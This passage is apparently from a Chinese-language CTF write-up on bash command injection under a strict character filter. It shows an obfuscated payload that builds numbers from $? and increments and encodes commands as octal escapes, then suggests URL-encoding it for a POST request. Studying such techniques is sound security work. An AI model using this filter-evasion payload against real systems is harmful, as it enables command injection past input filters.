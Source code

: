 看我们上面的payload可以发现其实需要的数字也就0、1和2，2可以由1<<1构造出来，可以省略。不过由于$?并不像$#一样灵活，可以随意构造出来任何数字，所以我为了减轻麻烦使用自增运算构造出了1，2这两个数字，现在就已经足够了，payload：

```
__=${?}&&___=$((++__))&&____=$((++___))&&_____=${?}&&${!_____}<<<${!_____}\<\<\<\$\'\\$((${____}#${__}${_____}${_____}${_____}${__}${__}${__}${__}))\\$((${____}#${__}${_____}${_____}${_____}${__}${__}${_____}${__}))\\$((${____}#${__}${_____}${__}${_____}${_____}${__}${_____}${_____}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}))\\$((${____}#${__}${__}${__}${_____}${_____}${__}))\\$((${____}#${__}${_____}${_____}${__}${_____}${_____}${__}${_____}))\\$((${____}#${__}${_____}${_____}${__}${__}${_____}${__}${_____}))\\$((${____}#${__}${_____}${_____}${_____}${__}${__}${_____}${__}))\\$((${____}#${__}${_____}${_____}${__}${_____}${_____}${__}${__}))\'
```

![img](assets/21.png)

直接像之前一样POST我们的payload的话报文里payload并没有被当作一个整体解析，所以我们可以url编码一下：

![img](assets/22.png)
